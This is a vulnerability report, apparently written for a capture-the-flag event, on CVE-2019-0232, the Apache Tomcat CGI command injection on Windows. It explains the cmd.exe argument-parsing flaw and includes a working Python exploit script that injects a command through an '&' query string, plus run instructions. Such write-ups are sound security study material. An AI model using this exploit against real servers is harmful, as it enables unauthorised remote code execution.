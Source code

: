 <div align="center"><h1>CVE-2019-0232 REPORT</h1></div>

## About the vulnerability

Apache Tomcat's CGI servlet, on Windows, for the below versions, is vulnerable to RCE due to a bug in how JRE passes arguments to Windows cmd.

**On versions:** Apache Tomcat 7.0.0 to 7.0.93, 8.5.0 to 8.5.39 and 9.0.0.M1 to 9.0.17

**Pre-requisites:** CGI option enableCmdLineArguments enabled in web.xml for Apache Tomcat. This enables the CGI servlet feature. Atleast one batch file to be present in the cgi directory.

## Explanation

This vulnerability exploits the way JRE passes arguments to the Windows cmd which in turn is a feature only available in Windows cmd. Windows cmd.exe takes a string line as argument for all command line arguments to any program instead of tokenizing it into an array of strings. Any program (eg. abc.bat) run in cmd is run in a `cmd.exe` environment as `C:\Windows\system32\cmd.exe /c "abc.bat"`

Arguments passed to the batch file under `"`, its characters are copied to the new command line as it is ignoring all other meta characters until the next `"` is encountered. So a command like `abc.bat "&dir"` is translated to `C:\Windows\system32\cmd.exe /c "abc.bat "&dir""`

The metacharacter `&` in the above translation is read as a separator as cmd.exe thinks it is out of the scope of `"`. Hence, `dir` is executed after `abc.bat`. After `&` any malicious code can be injected and executed. The regex pattern accepted by JRE includes such separators like `&` and hence the above vulnerability is triggered and RCE can be obtained.

## Exploit

```
#!/usr/bin/python
import requests
from urllib.parse import quote
def rce(url): #applies get request for the crafter url
    r = requests.get(url)
    print(r.content.decode("utf-8"))

targetURL = input('enter target url : ') # e.g. '192.168.43.249:8080/cgi-bin/auxiliary.bat'

url = 'http://' + targetURL + '?&'
payload_cmd = 'C:/Windows/System32/tasklist'
rce(url+quote(payload_cmd))
```
[Exploit on github](https://github.com/yash-bansod/Techmeet21-SAPTANG/blob/chall5/chall5/exploit_CVE-2019-0232.py)

This exploit was tested on Apache Tomcat 7.0.69 with JDK7 and allows RCE on the Apache Tomcat Server.

### How to Run

#### Installing a python virtual environment
```bash
$ python3 -m venv env

$ source env/bin/activate
```
#### Adding the python dependencies

```bash
$ pip3 install requests
```

#### Running the exploit
```bash
$ python3 exploit_CVE-2019-0232.py
```

## Proof of Concept

[PoC video](https://www.youtube.com/watch?v=eXD1Mxmacco)
